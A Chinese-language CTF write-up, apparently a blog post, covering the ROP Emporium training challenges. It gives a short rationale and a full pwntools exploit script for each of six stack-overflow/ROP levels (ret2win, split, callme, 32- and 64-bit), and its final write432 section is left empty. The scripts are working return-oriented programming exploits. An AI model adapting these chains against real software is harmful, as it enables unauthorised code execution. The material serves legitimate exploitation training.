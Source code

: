 ```yaml
---
layout: post
title:  "ROP_Emporium通关指南"
date:   2018-09-19 18:44:00
categories: WriteUp
tags: WriteUp PWN ROP_Emporium
---
```


* content
{:toc}


暑假去了趟Xman认识了一群大佬，也因此受到刺激成长了不少，这里就写一篇在xman时通关的ROP—Emporium的wp来记录一下自己的学习历程





## ret2win32

### 思路

简单的rop构造，ctf-wiki上好像把这种叫做ret2text

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('ret2win32')
elf = ELF('ret2win32')

bufsize = 40
buf = 'a'*bufsize
sh_addr = 0x08048659

payload = buf + 'aaaa' + p32(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```


## ret2win

### 思路

和上面的方法一样，只有一点差别是在64位下前6个参数是通过寄存器传递，更多的参数才入栈。

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('ret2win')
elf = ELF('ret2win')

bufsize = 0x20
buf = 'a'*bufsize
fake_ebp = 'a'*0x8
sh_addr = 0x400811

payload = buf + fake_ebp + p64(sh_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## split32

### 思路
热身题，很直接的ret2syscall

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./split32')
elf = ELF('./split32')

system_addr = elf.plt['system']
pop_ret = 0x080483e1
sh_addr = 0x804a030
bufsize = 40
buf = 'a'*bufsize

payload = buf + 'aaaa' + p32(system_addr) + 'aaaa' + p32(sh_addr)


def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```


## split

### 思路
64位的ret2syscall,比如我们想要传入一个参数，那这个参数需要被布置到寄存器rdi中，这时我们可以寻找诸如pop rdi;ret的代码片段，从而在执行完pop rdi后把栈上布置好的数据存放到寄存器rdi中后能够再次控制程序执行流（ret）

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./split')
elf = ELF('./split')

bufsize = 32
buf = 'a'*bufsize
system_addr = elf.plt['system']
pop_rdi_ret = 0x400883
sh_addr = 0x601060

payload = buf + 'a'*8 + p64(pop_rdi_ret) + p64(sh_addr) + p64(system_addr)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## callme32

### 思路
ret2libc的简单利用，审计过程序和libccallme32.so不难理解要得到flag要依次调用callme_one(1,2,3),callme_two(1,2,3),callme_three(1,2,3),这三个函数都是定义在libccallme32里,所以我们可以像调用system去调用(注意堆栈平衡)

### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./callme32')
elf = ELF('./callme32')

callme_one = elf.plt['callme_one']
callme_two = elf.plt['callme_two']
callme_three = elf.plt['callme_three']
ppp_ret = 0x080488a9
bufsize = 0x28
buf = 'a'*bufsize
argv = p32(1)+p32(2)+p32(3)

payload = buf + 'aaaa'
payload += p32(callme_one)+p32(ppp_ret)+argv
payload += p32(callme_two)+p32(ppp_ret)+argv
payload += p32(callme_three)+p32(ppp_ret)+argv

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## callme

### 思路
和32位差不多，不过不用考虑堆栈平衡(注意64位和32位的差别)

### exp
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./callme')
elf = ELF('./callme')

callme_one = elf.plt['callme_one']
callme_two = elf.plt['callme_two']
callme_three = elf.plt['callme_three']
ppp_ret = 0x401ab0
bufsize = 0x20
buf = 'a'*bufsize
argv = p64(1) + p64(2) + p64(3)

payload  = buf + 'a'*8
payload += p64(ppp_ret) + argv + p64(callme_one)
payload += p64(ppp_ret) + argv + p64(callme_two)
payload += p64(ppp_ret) + argv + p64(callme_three)

def pwn():
    n.recvuntil('>')
    n.sendline(payload)

pwn()

n.interactive()
```

## write432

### 思路



### exp
```python

```